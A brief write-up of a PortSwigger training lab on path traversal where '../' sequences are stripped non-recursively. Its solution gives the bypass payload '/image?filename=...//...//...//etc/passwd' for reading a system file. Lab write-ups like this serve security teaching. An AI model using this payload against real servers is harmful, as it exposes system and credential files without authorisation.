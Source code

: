 # File path traversal, traversal sequences stripped non-recursively
- Name: File path traversal, traversal sequences stripped non-recursively
- URL: https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively
- Level: Medium Time: 1 min
---------------------------------------------------------------------------------


## Solution
1. Find an image.
2. Edit the Source Path for it to add `...//...//...//` which means the normal `../../../` in a normal envirument
3. Then add the `/etc/passwd` to it like the next: `/image?filename=...//...//...//etc/passwd`